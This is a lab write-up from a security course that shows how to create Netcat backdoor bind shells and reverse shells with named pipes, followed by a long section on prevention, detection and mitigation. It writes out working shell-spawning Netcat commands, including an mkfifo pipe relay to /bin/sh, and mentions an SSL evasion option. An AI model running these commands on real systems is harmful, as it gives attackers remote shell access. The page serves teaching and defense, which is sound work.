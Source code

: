 ---
layout: page
title: Creating and Defending Against Netcat Backdoor Login Shells & Reverse Shell Backdoors Using Named Pipes
permalink: /projects/netcat_named_pipes/

### Overview:

During the SANS SEC504 (Hacker Tools, Techniques, and Incident Handling) I learned how attackers use Netcat to create backdoor login shells, reverse shell backdoors, transfer files, and cause other mischief.

I created several VMs in Proxmox to learn more about how RITA () detects C2 beaconing traffic, but I first wanted to practice using Netcat to create a backdoor login shell and a reverse shell backdoor. However, I found that I couldn’t use the -e switch in Ubuntu to create a reverse shell because -e was removed for security reasons. To overcome this I created a named pipe using the mkfifo command, which I explain below.

Lastly, I discuss steps defenders can take to prevent, detect, and mitigate attackers’ use of Netcat with named pipes to create reverse shells.

### Objective:

Use Netcat to create (1) a backdoor login shell and (2) a reverse shell backdoor using a Kali Linux VM and an Ubuntu Desktop VM in Proxmox.

III. Traditional Shell Listeners Using the -e Switch

Netcat Client & Listener Modes

### Netcat operates in client or listener modes:

Listener Mode: nc -l -p 4444

Client Mode: nc 192.168.55.73 4444

You must start the Netcat listener before executing the command on the Netcat client machine.

Creating a Shell Listener Using the -e Switch

In a “traditional” Netcat installation you can use Netcat with the -e switch, which will execute a program like /bin/bash once connected. For example, the -e switch allows Computer 1 (the Netcat listener) to pass a shell to Computer 2 (the Netcat client). The attacker must be able to connect to the victim’s computer, which network firewalls often prevent.

### Here’s an example of a backdoor login shell using Netcat’s -e switch:

The victim machine (the Netcat listener at 192.168.55.73) runs the below command, which puts the victim machine into listener mode on port 4444 and passes a shell to any machine that connects to it.

nc -l -p 4444 -e /bin/bash

### The attacker machine (the Netcat client) runs the below command to connect to the victim machine (192.168.55.73) on port 4444, which then receives the victim machine’s shell:

nc 192.168.55.73 4444



When I attempted to run the first command on an Ubuntu VM it failed because the Debian/Ubuntu netcat-openbsd version removed the -e switch for security reasons (see
).



IV. Named Pipe Workaround for Shell Listeners

I learned to use named pipes to create Netcat relays, which allow you to relay, or link, attacks across multiple systems. This is useful if, for example, an attacker gains access to a corporate machine (for example, a web server) that also has access to other corporate machines in an internal network.

However, we can use a named pipe as a substitute for the -e switch to create a shell listener or a reverse shell, as explained below.



### Step 1.1 (Ubuntu Machine/Netcat Listener): First create the named pipe using the mkfifo command (I named it “attackpipe”):

mkfifo attackpipe



### Step 1.2 (Ubuntu Machine/Netcat Listener): Create the Netcat listener on the victim machine at port 4444. The named pipe (a) passes a shell to the named pipe and (b) passes that shell to the attacker’s machine when it connects to the victim’s machine:

nc -l -p 4444 < attackpipe | /bin/sh > attackpipe

While not shown in the below screenshot, the cursor blinks below the command indicating that Netcat is in listener mode, shell at the ready and waiting for a connection.

![Figure](/images/image1.png)




Step 2 (Kali Linux/Netcat Client): Run the below command on the Kali machine to connect to the Ubuntu machine. In my Proxmox lab environment, the Ubuntu machine’s IP address is 192.168.55.73.

nc 192.168.55.73 4444



The above screenshot shows the Kali machine connecting and obtaining a shell from the Ubuntu machine. After running the Netcat command the Kali machine’s cursor blinks and you can enter commands that run on the Ubuntu machine (such as, whoami, hostname, and ls -l).

![Figure](/images/image10.png)


V. Named Pipe Workaround for Reverse Shells

As mentioned above, network firewalls typically prevent an attacker from using Netcat to connect to the victim’s machine. In these instances we can use a reverse shell backdoor because network firewalls typically allow outbound connections. In other words, the network firewall would not prevent the victim machine from making an outbound connection (the Netcat client) to the attacker’s machine (the Netcat listener).

As we did above, we can also use a named pipe to compensate for the absence of the -e switch.



Step 1 (Kali Linux/Netcat Listener): This time the Kali machine is the Netcat listener on port 4444. Start the Netcat listener before executing the Netcat command on the Ubuntu machine. In my Proxmox lab environment the Kali machine’s IP is 192.168.55.60.



Step 2.1 (Ubuntu/Netcat Client): Create a named pipe like before (the “attackpipe”).



Step 2.2 (Ubuntu/Netcat Client): Use Netcat to connect to the Kali machine at port 4444, passing a shell to the Kali machine via the named pipe (“attackpipe”).



Step 3 (Kali/Netcat Listener): Once the Ubuntu machine connects to the Kali machine, the Kali machine can execute commands that run on the Ubuntu machine. The below screenshot shows the Ubuntu machine’s responses to the Kali commands (for example, the Ubuntu machine’s hostname is “rita-sensor” and the whoami, hostname, pwd, and ls -l commands reflect the Ubuntu machine’s response).

![Figure](/images/image11.png)




VI. Blue Team: Defending Against Netcat Backdoor Login Shells & Reverse Shell Backdoors

There are multiple ways for defenders to prevent, detect, and mitigate attackers’ use of Netcat with named pipes to create reverse shells. I’ve focused on Linux defenses since I used that environment in the above examples, but defenders can adapt many of these techniques for use in Windows environments.

Prevention

### Defenders should harden systems to reduce the attack surface and prevent the attack outright by, for example:

Removing or Restricting Netcat Usage: If the business does not regularly require Netcat for operations, remove it from production systems to eliminate this attack vector. As shown above, Debian’s removal of the -e switch does not prevent an attacker from using named pipes to create backdoor shells. Use tools like AppArmor or SELinux to block Netcat execution.

Blocking Inbound Connections to Non-Standard Ports: Use host-based firewall rules (ufw or iptables) to block inbound connections to non-standard ports like 4444, which was used in the above examples. This can help reduce an attacker pivoting throughout the environment.

Selectively Block Outbound Connections: To prevent reverse shells, which use outbound connections to evade firewalls, consider egress filtering to permit only approved outbound traffic. However, an attacker can use ncat --ssl <IP> 443 to encrypt and mask this traffic as normal HTTPS. To prevent this, require that all outbound web traffic from servers go through an authenticated HTTPS proxy with TLS inspection capabilities (although this presents challenges like certificate pinning and inspection overhead and may not be feasible).

Using Next Generation Firewalls and Intrusion Prevention Systems: A NGFW/IPS can detect and block unusual traffic patterns, like unencrypted shell commands and anomalous beaconing.

Segment the Network: Use VLANs to help isolate traffic between machines. This helps limit an attacker’s ability to pivot to other systems throughout the network.

Detection

### Defenders can detect Netcat shells using named pipes through host and network monitoring in multiple ways, including:

Host Monitoring: In Linux, use auditd to log mknod system calls (for mkfifo) and command line entries involving Netcat piped to shells, like the commands shown above. Also monitor temporary directories for suspicious named pipes, which start with a “p” in ls -l output (shown in the above screenshots).

![Figure](/images/image2.png)


Networking Monitoring: IDS systems like Snort and Suricata can alert on outbound connections to unknown or suspect IPs on non-standard ports. Defenders can also use RITA and Zeek to analyze network flows for C2 beaconing patterns.

EDR Tools: EDR solutions can detect behavioral anomalies, like Netcat spawning shells or connecting through pipes. Defenders can hunt for suspicious named pipes (see, for example, a Windows-focused list of over 300 suspicious named pipes at ).

Mitigation

### If defenders detect a Netcat shell:

Immediately Contain the Affected System: Isolate the system from the network, terminate Netcat, delete unrecognized named pipes, and terminate any suspicious processes. Also block the attacker’s IP address.

Scan Ports: Scan potentially impacted machines and close all unused ports.

Investigate and Remediate: Use tools like Volatility for memory analyses, determine the scope of the attack, patch entry points, rotate credentials, and determine if the attacker compromised other machines in the network.

